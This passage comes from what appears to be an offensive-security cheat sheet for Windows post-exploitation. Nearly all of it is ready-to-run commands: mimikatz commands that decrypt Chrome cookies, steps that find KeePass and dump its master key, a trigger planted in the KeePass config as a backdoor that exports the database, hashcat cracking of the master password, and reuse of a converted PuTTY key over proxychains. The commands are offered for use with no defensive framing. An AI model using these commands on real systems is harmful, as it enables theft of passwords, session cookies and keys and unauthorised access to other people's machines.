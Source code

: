 #### Decrypt Cookies
```
dpapi::chrome /in:"C:\Users\<USER>\AppData\Local\Google\Chrome\User Data\Default\Network\Cookies" /unprotect
dpapi::chrome /in:"C:\Users\<USER>\AppData\Local\Google\Chrome\User Data\Default\Network\Cookies" /masterkey:<KEY>
```

## KeePass
- https://github.com/GhostPack/KeeThief
#### Enumeration
```
type %APPDATA%\KeePass\KeePass.config.xml
tasklist | findstr /I keepass
dir /s "C:/" | findstr "KeePass"
Get-Process keepass
```

#### Dump KeePass Masterkey
```
Get-KeePassDatabaseKey -Verbose
```

#### Create backdoor in config
```
Find-KeePassconfig -Path $env:appdata\KeePass
Get-KeePassConfigTrigger -Path $env:appdata\KeePass\KeePass.config.xml -Verbose
Add-KeePassConfigTrigger -Path $env:appdata\KeePass\KeePass.config.xml -Verbose -ExportPath C:\users\public\
```

#### Guess master password
- Remove the username
```
keepass2john Passwords.kdbx > hash.txt
hashcat -m 13400 -a 0 hash.txt rockyou.txt -r dive.rule
```

## Putty ppk file
```
sudo apt install putty-tools
puttygen privkey.ppk -O private-openssh -o priv_key
proxychains ssh -i priv_key <USER>@<IP>
```

## Network Sniffing
### netsh
### Start netsh packet capture
```
netsh trace start capture=yes
```
